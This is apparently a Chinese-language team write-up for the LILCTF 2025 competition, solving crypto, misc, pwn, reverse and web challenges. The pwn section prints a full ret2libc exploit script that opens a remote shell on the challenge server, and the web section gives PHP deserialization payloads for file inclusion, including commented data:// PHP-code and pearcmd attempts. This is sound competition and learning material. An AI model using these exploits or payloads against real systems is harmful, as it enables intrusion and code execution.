v[1] == v[2] + v[9] + v[10] + v[12] + v[13] + 1
v[14] == v[4] + v[5] + v[8] + v[9] + v[10] + v[13]
v[15] == v[3] + v[6] + v[7] + v[8] + v[9] + v[12] + v[13]
```
考虑到一共有 50 块，这 4 个方程立刻变成剩下的 200 个方程！

可惜我最开始把 vecs 当成了 GF(65536) 上的一次函数，不慎错失时机。
```Wolfram
k = {k0, k1, k2, k3, k4, k5, k6, k7, k8, k9, k10, k11, k12, k13, k14, k15, k16, k17, k18, k19, k20, k21, k22, k23, k24, k25, k26, k27, k28, k29, k30, k31, k32, k33, k34, k35, k36, k37, k38, k39, k40, k41, k42, k43, k44, k45, k46, k47, k48, k49, k50, k51, k52, k53, k54, k55, k56, k57, k58, k59, k60, k61, k62, k63, k64, k65, k66, k67, k68, k69, k70, k71, k72, k73, k74, k75, k76, k77, k78, k79, k80, k81, k82, k83, k84, k85, k86, k87, k88, k89, k90, k91, k92, k93, k94, k95, k96, k97, k98, k99, k100, k101, k102, k103, k104, k105, k106, k107, k108, k109, k110, k111, k112, k113, k114, k115, k116, k117, k118, k119, k120, k121, k122, k123, k124, k125, k126, k127, k128, k129, k130, k131, k132, k133, k134, k135, k136, k137, k138, k139, k140, k141, k142, k143, k144, k145, k146, k147, k148, k149, k150, k151, k152, k153, k154, k155, k156, k157, k158, k159, k160, k161, k162, k163, k164, k165, k166, k167, k168, k169, k170, k171, k172, k173, k174, k175, k176, k177, k178, k179, k180, k181, k182, k183, k184, k185, k186, k187, k188, k189, k190, k191, k192, k193, k194, k195, k196, k197, k198, k199, k200, k201, k202, k203, k204, k205, k206, k207, k208, k209, k210, k211, k212, k213, k214, k215, k216, k217, k218, k219, k220, k221, k222, k223, k224, k225, k226, k227, k228, k229, k230, k231, k232, k233, k234, k235, k236, k237, k238, k239, k240, k241, k242, k243, k244, k245, k246, k247, k248, k249, k250, k251, k252, k253, k254, k255, k256, k257, k258, k259, k260, k261, k262, k263, k264, k265, k266, k267, k268, k269, k270, k271, k272, k273, k274, k275, k276, k277, k278, k279, k280, k281, k282, k283, k284, k285, k286, k287, k288, k289, k290, k291, k292, k293, k294, k295, k296, k297, k298, k299, k300, k301, k302, k303, k304, k305, k306, k307, k308, k309, k310, k311, k312, k313, k314, k315, k316, k317, k318, k319, k320, k321, k322, k323, k324, k325, k326, k327, k328, k329, k330, k331, k332, k333, k334, k335, k336, k337, k338, k339, k340, k341, k342, k343, k344, k345, k346, k347, k348, k349, k350, k351, k352, k353, k354, k355, k356, k357, k358, k359, k360, k361, k362, k363, k364, k365, k366, k367, k368, k369, k370, k371, k372, k373, k374, k375, k376, k377, k378, k379, k380, k381, k382, k383, k384, k385, k386, k387, k388, k389, k390, k391, k392, k393, k394, k395, k396, k397, k398, k399, k400, k401, k402, k403, k404, k405, k406, k407, k408, k409, k410, k411, k412, k413, k414, k415, k416, k417, k418, k419, k420, k421, k422, k423, k424, k425, k426, k427, k428, k429, k430, k431, k432, k433, k434, k435, k436, k437, k438, k439, k440, k441, k442, k443, k444, k445, k446, k447, k448, k449, k450, k451, k452, k453, k454, k455, k456, k457, k458, k459, k460, k461, k462, k463, k464, k465, k466, k467, k468, k469, k470, k471, k472, k473, k474, k475, k476, k477, k478, k479, k480, k481, k482, k483, k484, k485, k486, k487, k488, k489, k490, k491, k492, k493, k494, k495, k496, k497, k498, k499, k500, k501, k502, k503, k504, k505, k506, k507, k508, k509, k510, k511, k512, k513, k514, k515, k516, k517, k518, k519, k520, k521, k522, k523, k524, k525, k526, k527, k528, k529, k530, k531, k532, k533, k534, k535, k536, k537, k538, k539, k540, k541, k542, k543, k544, k545, k546, k547, k548, k549, k550, k551, k552, k553, k554, k555, k556, k557, k558, k559, k560, k561, k562, k563, k564, k565, k566, k567, k568, k569, k570, k571, k572, k573, k574, k575, k576, k577, k578, k579, k580, k581, k582, k583, k584, k585, k586, k587, k588, k589, k590, k591, k592, k593, k594, k595, k596, k597, k598, k599, k600, k601, k602, k603, k604, k605, k606, k607, k608, k609, k610, k611, k612, k613, k614, k615, k616, k617, k618, k619, k620, k621, k622, k623, k624, k625, k626, k627, k628, k629, k630, k631, k632, k633, k634, k635, k636, k637, k638, k639, k640, k641, k642, k643, k644, k645, k646, k647, k648, k649, k650, k651, k652, k653, k654, k655, k656, k657, k658, k659, k660, k661, k662, k663, k664, k665, k666, k667, k668, k669, k670, k671, k672, k673, k674, k675, k676, k677, k678, k679, k680, k681, k682, k683, k684, k685, k686, k687, k688, k689, k690, k691, k692, k693, k694, k695, k696, k697, k698, k699, k700, k701, k702, k703, k704, k705, k706, k707, k708, k709, k710, k711, k712, k713, k714, k715, k716, k717, k718, k719, k720, k721, k722, k723, k724, k725, k726, k727, k728, k729, k730, k731, k732, k733, k734, k735, k736, k737, k738, k739, k740, k741, k742, k743, k744, k745, k746, k747, k748, k749, k750, k751, k752, k753, k754, k755, k756, k757, k758, k759, k760, k761, k762, k763, k764, k765, k766, k767, k768, k769, k770, k771, k772, k773, k774, k775, k776, k777, k778, k779, k780, k781, k782, k783, k784, k785, k786, k787, k788, k789, k790, k791, k792, k793, k794, k795, k796, k797, k798, k799}
eqn = Table[{Table[BitGet[gift[[n]][[1]], i], {i, 0, 799}], gift[[n]][[2]]}, {n, 1, Length[gift]}]
eqn = Join[Table[Dot[eqn[[n]][[1]], k] == eqn[[n]][[2]], {n, 1, Length[eqn]}], Table[k[[16*i+1]] == k[[16*i+4]]+k[[16*i+8]]+k[[16*i+10]]+k[[16*i+12]]+k[[16*i+13]]+k[[16*i+14]], {i, 0, 49}], Table[k[[16*i+2]] == k[[16*i+3]]+k[[16*i+10]]+k[[16*i+11]]+k[[16*i+13]]+k[[16*i+14]]+1, {i, 0, 49}], Table[k[[16*i+15]] == k[[16*i+5]]+k[[16*i+6]]+k[[16*i+9]]+k[[16*i+10]]+k[[16*i+11]]+k[[16*i+14]], {i, 0, 49}], Table[k[[16*i+16]] == k[[16*i+4]]+k[[16*i+7]]+k[[16*i+8]]+k[[16*i+9]]+k[[16*i+10]]+k[[16*i+13]]+k[[16*i+14]], {i, 0, 49}]]
(* 不知为何 Reduce 要比 Solve 快很多 *)
Reduce[eqn, k, Modulus -> 2]
```
虽然但是，还是有一个未知数没解出来。随机数生成的方程组秩是 600，从 vecs 的特征得到的方程组秩是 200，合起来却欠定了。不过试一试就可以得到正确的 key 了。
```Python
>>> from Crypto.Cipher import AES
>>> from hashlib import md5
>>> key = int('11001010010011110001100000001001100001000001111101100111110110000100000011100101010110101111010001010111101101110010001010111010101001110100111111001100101101101100101110010111010000110110100011101110111110010000101011101000010011110111101101110101100001110100111100110100100100100110010011100000010011101110011001000110000000001111001110000110110001000011101101011111111001001110001000000110100000101000001101000111001111010101000110011101110010101010011100110110000000001111010100011110111101101101000100001000100011011011111100000110101101001010010100011010000100110000101110010001100100001111101011010111100110111100010001011100110011000001001101000010110010001110110110011111011011100100010000000110101101001100111011011011111001001001001101111011000110011001111010110110001001011010001100010100', 2)
>>> aes = AES.new(key = md5(str(key).encode()).digest(), nonce = b'Tiffany', mode = AES.MODE_CTR)
>>> aes.decrypt(b'r\x9f\xa5N\x19\xa3\x8b-\xfen\xa7\xc9\xca\x87\x04\x873#ju\xc5\x06\xd0\x85L\x1ab\xa1XEre\xe5\x8c:h')
b'LILCTF{Un1qUe_s0luti0n_1N_sUbSp4C3!}'
```
```
LILCTF{Un1qUe_s0luti0n_1N_sUbSp4C3!}
```
↑并非惟一

## \[misc\] 提前放出附件
解题者：Ishisashi

提交时间：2025-08-16 15:54:24 (UTC+8)

简直是 [GeekGame 3rd「基本功」](https://github.com/PKU-GeekGame/geekgame-3rd/blob/master/official_writeup/prob24-password)原题复现。

随便压个 tar 看看特征，然后丢 bkcrack。
```PowerShell
PS C:\Users\Ishisashi\Downloads\bkcrack-1.7.1-win64> .\bkcrack.exe -C .\154555_misc-public-ahead.zip -c flag.tar -p .\tarsample -o 108
bkcrack 1.7.1 - 2024-12-21
[15:51:38] Z reduction using 12 bytes of known plaintext
100.0 % (12 / 12)
[15:51:38] Attack on 586522 Z values at index 115
Keys: 945815e7 4e7a2163 e46b8f88
22.3 % (130538 / 586522)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 130538
[15:53:28] Keys
945815e7 4e7a2163 e46b8f88
PS C:\Users\Ishisashi\Downloads\bkcrack-1.7.1-win64> .\bkcrack.exe -C .\154555_misc-public-ahead.zip -c flag.tar -k 945815e7 4e7a2163 e46b8f88 -d .\output.tar
bkcrack 1.7.1 - 2024-12-21
[15:54:09] Writing deciphered data .\output.tar
Wrote deciphered data (not compressed).
```
```
LILCTF{Z1pCRyp70_1s_n0t_5ecur3}
```
本来应该是稳拿一血的东西，但因为跑去做其它题了，不慎四血。一血是放题 18 分钟后才出现的，如果我上来就做这题就秒了；哪怕三血也就晚了 11 秒，直接把我气哭。


### Omake：CT 视角
下载附件，是一个 ZipCrypto Store 加密的压缩包，里面有一个文件 flag.tar。

查询 tar 文件结构，wow前一百个字节都是文件名(tar 包内的文件)，那我想总不会真的会放那么长文件名的文件吧，于是尝试对 80 多偏移的地方使用 bkcracker，HEX 全都是 00，几分钟后得到 flag。

(来不及写了，嗯反正这题 flag 不是我提交的)

## \[pwn\] 签到
解题者：Ishisashi

提交时间：2025-08-16 16:42:36 (UTC+8)

很老掉牙的栈溢出，但我却是第一次做，找教程现学的。毕竟我没有特别训练过 CTF 技能，都是打完后就不管了。

用 IDA 反汇编：
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[112]; // [rsp+0h] [rbp-70h] BYREF

  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  setbuf(stderr, 0LL);
  puts("Welcome to lilctf!");
  puts("What's your name?");
  read(0, buf, 0x200uLL);
  return 0;
}
```
可以看到 buf 在 rbp 前 112 字节处，于是塞 120 字节的垃圾数据，然后放 payload 就可以了。
```Python
import pwn

pwn.context(log_level = 'debug')

elf = pwn.ELF('./pwn')
libc = pwn.ELF('./libc.so.6')

ret = 0x40101A
pop_rdi_ret = 0x401176
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']

payload = b'AAABaoBaoNiShiYiGeXiangXiangRuanRuanTianTianNuoNuoFengMiNaiYouTianTianNiNiSuSuCuiCuiHuaHuaNenNenFanQieChaoKeLeFanQieChao'
payload += pwn.p64(pop_rdi_ret)
payload += pwn.p64(puts_got)
payload += pwn.p64(puts_plt)
payload += pwn.p64(main_addr)

rr = pwn.remote('challenge.xinshi.fun', 42182)
rr.sendlineafter(b'What\'s your name?', payload)

rr.recvline()
leak = rr.recvline()[:-1].ljust(8, b'\x00')
puts_addr = pwn.u64(leak)
libc_base = puts_addr - libc.sym['puts']

system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

payload = b'AAABaoBaoNiShiYiGeXiangXiangRuanRuanTianTianNuoNuoFengMiNaiYouTianTianNiNiSuSuCuiCuiHuaHuaNenNenFanQieChaoKeLeFanQieChao'
# 不弹栈就等着吃 Got EOF while reading in interactive 罢
payload += pwn.p64(ret)
payload += pwn.p64(pop_rdi_ret)
payload += pwn.p64(bin_sh_addr)
payload += pwn.p64(system_addr)

rr.sendlineafter(b'What\'s your name?', payload)
rr.interactive()
```
```
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x1c bytes:
    b'bin\n'
    b'dev\n'
    b'flag\n'
    b'lib\n'
    b'lib64\n'
    b'vuln\n'
bin
dev
flag
lib
lib64
vuln
$ cat /flag
[DEBUG] Sent 0xa bytes:
    b'cat /flag\n'
[DEBUG] Received 0x2c bytes:
    b'LILCTF{03803481-0c2b-4d88-92fe-622984719f82}'
LILCTF{03803481-0c2b-4d88-92fe-622984719f82}
```
```
LILCTF{03803481-0c2b-4d88-92fe-622984719f82}
```
……害我没去做真·签到题「是谁没有阅读参赛须知？」，好在昌九发现了那题。「难度：签到」倒是所言不虚，不过这是对有 pwn 基础的人而言的。

## \[crypto\] baaaaaag
解题者：Ishisashi

提交时间：2025-08-16 19:56:59 (UTC+8)

这是很典型的子集和问题。其密度大致是 72/90=0.8，可以采用 LLL-BKZ 算法。
```Python
from fpylll import IntegerMatrix, LLL, BKZ

a = [965032030645819473226880279, 699680391768891665598556373, 1022177754214744901247677527, 680767714574395595448529297, 1051144590442830830160656147, 1168660688736302219798380151, 796387349856554292443995049, 740579849809188939723024937, 940772121362440582976978071, 787438752754751885229607747, 1057710371763143522769262019, 792170184324681833710987771, 912844392679297386754386581, 906787506373115208506221831, 1073356067972226734803331711, 1230248891920689478236428803, 713426848479513005774497331, 979527247256538239116435051, 979496765566798546828265437, 836939515442243300252499479, 1185281999050646451167583269, 673490198827213717568519179, 776378201435505605316348517, 809920773352200236442451667, 1032450692535471534282750757, 1116346000400545215913754039, 1147788846283552769049123803, 994439464049503065517009393, 825645323767262265006257537, 1076742721724413264636318241, 731782018659142904179016783, 656162889354758353371699131, 1045520414263498704019552571, 1213714972395170583781976983, 949950729999198576080781001, 1150032993579134750099465519, 975992662970919388672800773, 1129148699796142943831843099, 898871798141537568624106939, 997718314505250470787513281, 631543452089232890507925619, 831335899173370929279633943, 1186748765521175593031174791, 884252194903912680865071301, 1016020417916761281986717467, 896205582917201847609656147, 959440423632738884107086307, 993368100536690520995612807, 702602277993849887546504851, 1102807438605649402749034481, 629539427333081638691538089, 887663258680338594196147387, 1001965883259152684661493409, 1043811683483962480162133633, 938713759383186904819771339, 1023699641268310599371568653, 784025822858960757703945309, 986182634512707587971047731, 1064739425741411525721437119, 1209428051066908071290286953, 667510673843333963641751177, 642828919542760339851273551, 1086628537309368288204342599, 1084848944960506663668298859, 667827295200373631038775959, 752634137348312783761723507, 707994297795744761368888949, 747998982630688589828284363, 710184791175333909291593189, 651183930154725716807946709, 724836607223400074343868079, 1118993538091590299721647899]
b = 34962396275078207988771864327

n = len(a)
L = IntegerMatrix(n + 1, n + 1)
for i in range(n):
    L[i, i] = 2
    L[i, n] = a[i]
    L[n, i] = 1
L[n, n] = b
LLL.reduction(L)
BKZ.reduction(L, BKZ.Param(block_size = 30))
print(L[0])
```
```
(1, 1, -1, 1, 1, -1, 1, -1, 1, -1, 1, -1, 1, 1, 1, 1, -1, 1, -1, -1, 1, -1, 1, -1, 1, -1, -1, -1, -1, -1, -1, -1, 1, 1, -1, -1, -1, -1, 1, -1, 1, -1, 1, -1, -1, -1, -1, 1, -1, 1, -1, -1, 1, -1, -1, 1, 1, -1, -1, 1, 1, -1, 1, 1, 1, 1, -1, 1, 1, -1, -1, -1, 0)
```
我手工构造了好几种格矩阵，都不太好用，终于在网上找到个好用的。
```Python
>>> from Crypto.Cipher import AES
>>> import hashlib
>>> p = int('111001000010011001101101011110101011110011111110101011010000101010100100', 2)
>>> key = hashlib.sha256(str(p).encode()).digest()
>>> cipher = AES.new(key, AES.MODE_ECB)
>>> cipher.decrypt(b'Lo~G\xf46>\xd609\x8e\x8e\xf5\xf83\xb5\xf0\x8f\x9f6&\xea\x02\xfa\xb1_L\x85\x93\x93\xf7,`|\xc6\xbe\x05&\x85\x8bC\xcd\xe6?TV4q')
b'LILCTF{M4ybe_7he_brut3_f0rce_1s_be5t}\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b\x0b'
```
```
LILCTF{M4ybe_7he_brut3_f0rce_1s_be5t}
```
？原来预期解是暴力破解吗。

### Omake
打个 CTF 还要查论文，这辈子有了（


## \[misc\] PNG Master
解题者：Ishisashi

提交时间：2025-08-16 20:44:26 (UTC+8)

IEND 后藏着一串 Base64：
```
6K6p5L2g6Zq+6L+H55qE5LqL5oOF77yM5pyJ5LiA5aSp77yM5L2g5LiA5a6a5Lya56yR552A6K+05Ye65p2lZmxhZzE6NGM0OTRjNDM1NDQ2N2I=
```
```
让你难过的事情，有一天，你一定会笑着说出来flag1:4c494c4354467b
```
```
LILCTF{
```
用 Stegsolve 搞定 LSB 隐写：


```
5Zyo5oiR5Lus5b+D6YeM77yM5pyJ5LiA5Z2X5Zyw5pa55piv5peg5rOV6ZSB5L2P55qE77yM6YKj5Z2X5Zyw5pa55Y+r5YGa5biM5pybZmxhZzI6NTkzMDc1NWYzNDcyMzM1ZjRk
```
```
在我们心里，有一块地方是无法锁住的，那块地方叫做希望flag2:5930755f3472335f4d
```
```
Y0u_4r3_M
```
最后一个 IDAT 是藏着 ZIP 的 zlib 流，内有 hint.txt 与 secret.bin。

首先是 hint.txt：
```
救赎之道，‍‌‬‌‌‬就在其中‍‬‍‍‬‌‍‍‌‬‍‬‍‍‍‌‌‌‍‌‌‌‌‍‬‌‌‌‌‌‍‬‌‌‌‌‍‌‬
```
下意识按了左方向键，发现退不动，显然是有不可见字符。出现了 ZWNJ、ZWJ、PDF、BOM 四种，可以猜是四进制。

实践发现这个猜测是对的。实际上 ZWNJ、ZWJ、PDF、BOM 分别对应 0、1、2、3：
```
10320032121120131032331211100031000013200000123300001302
```
也可以用十六进制写成：
```
4E0E65874EF6540D0078006F0072
```
用 UTF-16BE 读取：
```
与文件名xor
```
_「哦对了，我可不认为扩展名也是文件名的一部分。」_

那么打开 secret.bin 看看罢。
```
15090215564E455454415643455054405012455C551750124655571751434401
```
与文件名「secret」即 736563726574 异或，得到：
```
flag3:61733765725f696e5f504e477d
```
```
as7er_in_PNG}
```
拼接起来：
```
LILCTF{Y0u_4r3_Mas7er_in_PNG}
```
### Omake 1
好基友 CT 看到 secret.bin 的「VNETTAVCEPT」，误以为是 Vigenère 密码，从而回想起被[新穷铁道](https://github.com/PKU-GeekGame/geekgame-4th/blob/master/official_writeup/misc-erail)支配的恐惧。


### Omake 2：CT 视角
zsteg 找的隐写的 flag2(base64) 和 zlib。后面就不会了，因为注意不到那个 hint.txt。。

(非本人提交 flag)

## \[reverse\] Qt_Creator
解题者：RenzukaCtone

提交时间：2025-08-16 23:09:33 (UTC+8)

不会 pwn。直接把主程序的 HEX 拿去分析文本，找到这些：


嗯神秘字符串呢，那就试着解解看吧。

与 `LILCTF{` 对照着看，很快就能发现规律：密文每个字符从头开始加 1，下一个字符减 1，依次计算就能得到 flag。

```
KJKDSGzR6`bsd5s1q`0t^wdsx`b1mw2oh4mu|
LILCTF{Q7_cre4t0r_1s_very_c0nv3ni3nt}
```

搜这个 login 也很快。


## \[reverse\] ARM ASM
解题者：Ishisashi

提交时间：2025-08-17 01:11:54 (UTC+8)

首先看一眼 MainActivity，发现了编码后的 Flag。
```
KRD2c1XRSJL9e0fqCIbiyJrHW1bu0ZnTYJvYw1DM2RzPK1XIQJnN2ZfRMY4So09S
```
用 IDA 可以反汇编 so，我选择把伪代码改写成 JS。从代码中可以看到，做本题不用取得 root 权限。日志记录了中间过程及结果，`adb logcat` 就可以看。

一边查资料改写，一边 `console.log` 调试，和 ADB 看到的日志对比。
```JavaScript
'use strict';

const t = Buffer.from([0x0D, 0x0E, 0x0F, 0x0C, 0x0B, 0x0A, 0x09, 0x08, 0x06, 0x07, 0x05, 0x04, 0x02, 0x03, 0x01, 0x00]);

const check = (str) => {
    if (str.length !== 48) {
        return '⸰o㴽';
    };

    let buf = Buffer.from(str);
    let tCopy = Buffer.from(t);

    let i = 0;
    while (i < 3) {
        let tmp1 = tCopy.map((offset) => buf[16 * i + offset]);
        let tmp2 = tmp1.map((b, offset) => b ^ tCopy[offset]);
        tmp2.copy(buf, 16 * i);
        let tmp3 = Buffer.from([i, i, i, i, i, i, i, i, i, i, i, i, i, i, i, i]);
        tCopy = tCopy.map((b, offset) => b ^ tmp3[offset]);
        i += 1;
    };

    let j = 0;
    while (j < 48) {
        buf[j] = ((buf[j] >> 5) | (buf[j] << 3)) & 0xFF;
        buf[j + 1] = ((buf[j + 1] >> 1) | (buf[j + 1] << 7)) & 0xFF;
        j += 3;
    };

    // 非标 Base64，字符表为「abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ3456780129+/」
    return buf.toString('base64');
};
```
最后改写出了完全符合的代码呢。

……那个「1145141919810111」原来没有任何用处吗。

我这人比较懒，不想写逆向算法，直接上 Z3。
```Python
from z3 import *

flag = [BitVec(f'flag_{i}', 8) for i in range(48)]

solver = Solver()

buf = list(flag)
t = [0x0D, 0x0E, 0x0F, 0x0C, 0x0B, 0x0A, 0x09, 0x08, 0x06, 0x07, 0x05, 0x04, 0x02, 0x03, 0x01, 0x00]

i = 0
while i < 3:
    tmp1 = list(map(lambda offset: buf[16 * i + offset], t))
    tmp2 = [tmp1[offset] ^ t[offset] for offset in range(len(tmp1))]
    buf[16 * i : 16 * i + 16] = tmp2
    tmp3 = [i, i, i, i, i, i, i, i, i, i, i, i, i, i, i, i]
    t = [t[offset] ^ tmp3[offset] for offset in range(len(t))]
    i += 1

j = 0
while j < 48:
    buf[j] = LShR(buf[j], 5) | (buf[j] << 3)
    buf[j + 1] = LShR(buf[j + 1], 1) | (buf[j + 1] << 7)
    j += 3

out = [0x92, 0xB7, 0x7C, 0x0B, 0xBC, 0x6B, 0xB2, 0x39, 0x7D, 0x13, 0xA1, 0x50, 0x72, 0x20, 0x48, 0x62, 0x34, 0x61, 0xC3, 0xB0, 0x54, 0xEB, 0x33, 0x6D, 0xCA, 0x35, 0x72, 0x5B, 0xB7, 0x66, 0xF2, 0xB6, 0x69, 0x93, 0xBC, 0x62, 0xAA, 0x33, 0x67, 0xF3, 0x31, 0x6B, 0x9B, 0x2D, 0x6C, 0x3B, 0xAF, 0x6C]
for i in range(len(buf)):
    solver.add(buf[i] == out[i])

check = solver.check()

if check == sat:
    model = solver.model()
    res_flag = ''.join([chr(model[flag[i]].as_long()) for i in range(len(flag))])
    print(res_flag)
elif check == unsat:
    print('unsat')
else:
    print('unknown')
```
```
LILCTF{ez_arm_asm_meow_meow_meow_meow_meow_meow}
```
……居然没有用 Leet 吗？

### Omake
笑点解析：Unity


## \[web\] Your Uns3r
解题者：RenzukaCtone

提交时间：2025-08-17 04:08:04 (UTC+8)

题目给了源码，最下面的反序列函数可以用于创建对象。那我们要创建一个 admin 账户！

"admin" 那里没有严格等于，真是太好啦，那我们就让创建的账户 admin 字段直接为 true(bool)。绕过 admin 那后面的 `Access":` 就不用管了。

本地 PHP 里把对象构造好，调用 serialize() 之后 POST 过去。Payload:

```
a:2:{i:0;O:4:"User":2:{s:8:"username";b:1;s:5:"value";s:72:"O:6:"Access":2:{s:9:"\0*\0prefix";s:1:"/";s:9:"\0*\0suffix";s:8:"/../flag";}";}}
```

这样就可以 include /lilctf/../flag 把 flag 显示出来。

本地 PHP 8.4.11 测试时，直接传对象的序列化是可以按预期工作的，但到靶机上就不行。根据响应得知靶机 PHP 版本为 5.6.40。

查到资料：https://bbs.kanxue.com/thread-271714.htm


那就可以把对象包在数组里让其强制进行垃圾回收，以执行 __destruct() 函数。

prefix 与 suffix 为 protected，序列化后前面会加上 \0\*\0，一开始还以为是空格。。那似乎没法用 Restfox 做了，用脚本进行 POST。

```JavaScript
const http = require('http');
//const payload = 'a:2:{i:0;O:4:"User":2:{s:8:"username";b:1;s:5:"value";s:102:"O:6:"Access":2:{s:9:"\0*\0prefix";s:36:"data:text/plain,<?php phpinfo()?> /*";s:9:"\0*\0suffix";s:2:"*/";}";}}';
//const payload = 'a:2:{i:0;O:4:"User":2:{s:8:"username";b:1;s:5:"value";s:102:"O:6:"Access":2:{s:9:"\0*\0prefix";s:38:"file:///usr/share/php/%70earcmd.php?a=";s:9:"\0*\0suffix";s:0:"";}";}}';
//const payload = 'a:2:{i:0;O:4:"User":2:{s:8:"username";b:1;s:5:"value";s:79:"O:6:"Access":2:{s:9:"\0*\0prefix";s:2:"./";s:9:"\0*\0suffix";s:13:"/../index.php";}";}}';
//const payload = 'a:2:{i:0;O:4:"User":2:{s:8:"username";b:1;s:5:"value";s:98:"O:6:"Access":2:{s:9:"\0*\0prefix";s:34:"php://filter/resource=index.php\x26a=";s:9:"\0*\0suffix";s:0:"";}";}}';
const payload = 'a:2:{i:0;O:4:"User":2:{s:8:"username";b:1;s:5:"value";s:72:"O:6:"Access":2:{s:9:"\0*\0prefix";s:1:"/";s:9:"\0*\0suffix";s:8:"/../flag";}";}}';

const payloadBuffer = Buffer.from(payload, 'binary');

// 自定义 boundary
const boundary = '----WebKitFormBoundary7MA4YWxkTrZu0gW';

// 构造 multipart/form-data 请求体
let body = Buffer.concat([
  Buffer.from(`--${boundary}\r\n`),
  Buffer.from(`Content-Disposition: form-data; name="user"\r\n\r\n`),
  payloadBuffer,
  Buffer.from(`\r\n--${boundary}--\r\n`)
]);

const options = {
  hostname: 'challenge.xinshi.fun',
  port: 38966,
  path: '/',
  method: 'POST',
  headers: {
    'Content-Type': `multipart/form-data; boundary=${boundary}`,
    'Content-Length': body.length
  }
};

const req = http.request(options, (res) => {
  let data = '';
  res.on('data', chunk => data += chunk);
  res.on('end', () => console.log('Response:', data));
});

req.write(body);
req.end();
```


## \[reverse\] obfusheader.h
解题者：Ishisashi

提交时间：2025-08-17 20:20:10 (UTC+8)

随手输个短点的东西，发现 F3C4D9DF8EC9DCD0D593DDC696C3D7D69AC8D4D2CCCBE1C1 一步步变成了 596F757220666C616720697320746F6F2073686F72742100。

_「気がつけば今は 目の前で転がっているんだ」_

丢去异或发现密钥逐字节增加 1。

用十六进制编辑器打开，在 F3C4D9DF8EC9DCD0D593DDC696C3D7D69AC8D4D2CCCBE1C1 的附近发现了比较长的东西：
```
EE1C04A94A587F36B9748A84FF0387ECDEBF2B48BBC8183332A34D30BD65D6681EA8963EB10B07C2DA
```
根据规律推测，原文大概是：
```
5CAFB01CFCEFC78F03CF363941BC472D1C7CEF8D7D0FD0FAF86881FD73AA06B9CC7B42EB67DCDF1B00
```
还是乱的，看来这只是第一层。

用 x96dbg 打开调试，发现输入的东西就在 `.bss` 中，而且加密后也跟着变成了密文。
```
00007FF785D4A040  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa  
00007FF785D4A050  61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61  aaaaaaaaaaaaaaaa  
00007FF785D4A060  61 61 61 61 61 61 61 61 00 00 00 00 00 00 00 00  aaaaaaaa........  
```
```
00007FF785D4A040  8E 2D 62 3E AF 9D 66 EC 93 DD 65 DA 91 9F A4 7F  .-b>¯.fì.ÝeÚ..¤.  
00007FF785D4A050  0E 2D FD FF AF ED B3 19 D8 3D 73 1E 76 FB E5 2C  .-ýÿ¯í³.Ø=s.vûå,  
00007FF785D4A060  8E 98 00 BE 36 F9 2D DA 00 00 00 00 00 00 00 00  ...¾6ù-Ú........  
```
很遗憾我还是看不出怎么加密的。但没关系，如果运气好的话变化只限于每个字节内部，字符串顺序没有打乱。采样测一下就完事了。

为了试出每个二进制位跑到哪里去了，我构造了这样的测试例：
```
01010101010101010101010101010101010101010101010101010101010101010101010101010101
03030303030303030303030303030303030303030303030303030303030303030303030303030303
07070707070707070707070707070707070707070707070707070707070707070707070707070707
0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F0F
1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F1F
3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F3F
7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F7F
FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF
FEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFEFE
```
可以看出这是类似于格雷码的测试法。加密结果如下：
```
882B6438A99B60EA95DB63DC9799A279082BFBF9A9EBB51FDE3B751870FDE32A889E06B830FF2BDC
A80B441889BB40CAB5FB43FCB7B98259280BDBD989CB953FFE1B553850DDC30AA8BE269810DF0BFC
E84B0458C9FB008AF5BB03BCF7F9C219684B9B99C98BD57FBE5B1578109D834AE8FE66D8509F4BBC
68CB84D8497B800A753B833C77794299E8CB1B19490B55FF3EDB95F8901D03CA687EE658D01FCB3C
69CA85D9487A810B743A823D76784398E9CA1A18480A54FE3FDA94F9911C02CB697FE759D11ECA3D
6BC887DB4A7883097638803F747A419AEBC8181A4A0856FC3DD896FB931E00C96B7DE55BD31CC83F
6FCC83DF4E7C870D723C843B707E459EEFCC1C1E4E0C52F839DC92FF971A04CD6F79E15FD718CC3B
67C48BD746748F057A348C3378764D96E7C4141646045AF031D49AF79F120CC56771E957DF10C433
77D49BC756649F156A249C2368665D86F7D4040656144AE021C48AE78F021CD57761F947CF00D423
```
观察结果可以发现，二进制位的位置而言是 $\left\[\begin{matrix}0&1&2&3&4&5&6&7\cr4&5&6&7&0&1&2&3\end{matrix}\right\]$ 的对合轮换，相当于颠倒两个十六进制位；然后异或：
```
983B7428B98B70FA85CB73CC8789B269183BEBE9B9FBA50FCE2B650860EDF33A988E16A820EF3BCC
```
不过我还是不知道字符画起到了甚么作用……
```
    __    ______    __________________
   / /   /  _/ /   / ____/_  __/ ____/
  / /    / // /   / /     / / / /_    
 / /____/ // /___/ /___  / / / __/    
/_____/___/_____/_____/ /_/ /_/       
```
总之了解这个规律后很容易破译 Flag 了。
```
5CAFB01CFCEFC78F03CF363941BC472D1C7CEF8D7D0FD0FAF86881FD73AA06B9CC7B42EB67DCDF1B
```
